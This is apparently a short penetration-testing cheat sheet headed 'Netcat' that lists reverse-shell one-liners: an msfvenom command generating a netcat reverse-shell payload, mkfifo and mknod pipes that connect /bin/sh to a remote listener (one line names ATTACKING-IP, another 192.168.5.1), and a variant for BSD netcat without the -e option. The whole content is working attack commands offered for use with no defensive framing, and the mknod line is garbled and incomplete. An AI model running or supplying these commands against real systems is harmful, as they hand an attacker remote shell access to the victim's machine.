 # Netcat

```
msfvenom -p cmd/unix/reverse_netcat lhost=0.0.0.0 lport=9999 R → auto generate, can be perl or python instead of netcat

mkfifo /tmp/lnyzdr; nc 0.0.0.0 9999 0</tmp/lnyzdr | /bin/sh >/tmp/lnyzdr 2>&1; rm /tmp/lnyzdr  → host

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## for bsd version of netcat without -e option

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 192.168.5.1 5555 >/tmp/f
```

